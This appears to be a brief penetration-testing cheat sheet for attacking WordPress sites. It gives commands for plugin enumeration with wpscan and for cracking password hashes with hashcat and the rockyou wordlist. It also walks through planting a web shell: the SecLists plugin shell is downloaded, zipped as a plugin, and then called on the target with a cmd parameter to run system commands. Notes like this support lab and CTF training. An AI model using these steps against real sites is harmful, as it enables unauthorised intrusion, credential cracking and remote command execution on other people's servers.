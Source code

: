 # Wordpress

## wpscan
- **IF THERE IS NOT EVEN VULNERABILITY IN PLUGINS, GET and SERACH THEIR NAMES MANUALLY ON GOOGLE**
```
wpscan --url <url> --enumerate ap --api-token <api-token>
```

## hashcat
```
hashcat -m 400 -a 0 -o cracked.txt  hash.txt /usr/share/wordlists/rockyou.txt
```

## Shell via Plugin
```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Web-Shells/WordPress/plugin-shell.php
zip plugin-shell.zip plugin-shell.php
http://<url>/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
```

